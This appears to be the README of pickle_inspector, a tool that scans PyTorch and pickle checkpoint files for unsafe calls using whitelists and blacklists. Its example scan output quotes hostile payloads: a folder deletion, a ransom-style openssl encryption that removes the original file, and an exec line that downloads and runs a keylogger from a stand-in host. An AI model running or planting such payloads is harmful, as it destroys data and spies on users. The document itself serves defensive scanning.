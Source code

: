 # pickle_inspector 🥒🔬
Check what is in the pickle before eating it.

It works on any type of pickle, but was made with `torch` in mind.

NOTE:
torch == 1.13.0 breaks using custom unpicklers, see https://github.com/pytorch/pytorch/issues/88438
until this is fixed, stick to 1.12.x or older.

## Scanning pickles via command line
**tl;dr** just let me scan my pickles.
```sh
python3 scan_pickle.py --preset stable_diffusion_v1 --in sus.ckpt
```
```
> Scanning file: sus.ckpt
> Using white list: ['collections.OrderedDict', 'torch._utils._rebuild_tensor_v2', 'torch.HalfStorage', 'torch.> FloatStorage', 'torch.IntStorage', 'torch.LongStorage', 'pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint', 'numpy.core.multiarray.scalar', 'numpy.dtype', '_codecs.encode']
> stub: torch._utils._rebuild_tensor_v2
> stub: torch.FloatStorage
> stub: collections.OrderedDict
> stub: torch.IntStorage
> stub: torch.LongStorage
> stub: pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint
> stub: numpy.core.multiarray.scalar
> stub: numpy.dtype
> stub: _codecs.encode
> Scan PASSED ✅
```
### Script usage
```
usage: Scan pickles [-h] -i INPUT [-p {stable_diffusion_v1}] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --in INPUT  path to a pickle or a zip containing pickles
  -p {stable_diffusion_v1}, --preset {stable_diffusion_v1}
                        a whitelist preset to use: stable_diffusion_v1
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        whitelist of modules and functions to allow
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        blacklist of modules and functions to block
```
## Inspecting
Inspect without unpickling.
```py
import torch
import pickle_inspector
result = torch.load('sus.pt', pickle_module=pickle_inspector.inspector)
for c in result.classes:
    print(c)
```
notice calls to `shutil.rmtree`, `os.system` or similar
```
> shutil.rmtree
> torch._utils._rebuild_tensor_v2
> collections.OrderedDict
> numpy.core.multiarray.scalar
> os.system
> numpy.dtype
> _codecs.encode
```
so we are taking a closer look at what is being called
```py
for c in result.calls:
    print(c)
```
and it seems like someone tried to delete something and ransom a file
```
> shutil.rmtree(('/very/important/folder'), {})
> collections.OrderedDict((), {})
> torch._utils._rebuild_tensor_v2((None, 0, (1000,), (1,), False, collections.OrderedDict((), {})), {})
...
> torch._utils._rebuild_tensor_v2((None, 0, (), (), False, collections.OrderedDict((), {})), {})
> os.system(('openssl enc -aes-128-ecb -in important_file -out give_money.enc -K 1337B00B135DEADBEEF; rm important_file'), {})
> numpy.dtype(('f8', False, True), {})
> numpy.dtype.__setstate__(((3, '<', None, None, None, -1, -1, 0),), {})
> _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})
> numpy.core.multiarray.scalar((numpy.dtype(('f8', False, True), {}), _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})), {})
```
## Controlled unpickling
Inspect and unpickle using white and blacklists.

```py
import torch
from pickle_inspector import UnpickleConfig, UnpickleControlled, PickleModule
config = UnpickleConfig()
# only allow  modules, classes and funcions in the whitelist
# the rest will be stubbed
config.whitelist = [
        'torch._utils._rebuild_tensor_v2',
        'torch.FloatStorage',
        'torch.IntStorage',
        'torch.LongStorage',
        'numpy.core.multiarray.scalar',
        'numpy.dtype',
        'collections.OrderedDict',
        '_codecs.encode'
]
result = torch.load('model.ckpt', pickle_module = PickleModule(UnpickleControlled, config))
state_dict = result.structure
for c in result.classes:
    print(c)
```
```
> torch._utils._rebuild_tensor_v2
> torch.FloatStorage
...
> STUBBED exec
> collections.OrderedDict
...
```
```py
for c in results.calls:
    if 'exec' in c:
        print(c)
```
```py
> exec('import os;os.system("wget https://sus.to/keylog;chmod +x keylog;./keylog &")')
```
## Blacklist & Whitelist
The whitelist has priority over the blacklist.

If the blacklist contains items everything will be allowed except items in the blacklist,\
or items in the blacklist and in the whitelist. This is useful using wildcards.

Example: Block everything within `torch` except `torch.FloatStorage`
```py
conf.blacklist = ['torch.*']
conf.whitelist = ['torch.FloatStorage']
```

If the blacklist is empty and the whitelist contains items, \
everything except items in the whitelist will be blocked.

## Safe whitelist for stable diffusion v1
A premade whitelist for stable diffusion v1 is available in this project.

Example: Scan a stable diffusion checkpoint
```py
import torch
from pickle_inspector import UnpickleConfig, PickleModule, UnpickleInspector, whitelists
conf = UnpickleConfig(whitelist = whitelists.stable_diffusion_v1)
torch.load('sd-v1-4.ckpt', pickle_module=PickleModule(UnpickleInspector, conf))
```

Tested with python 3.9 and torch 1.12.1
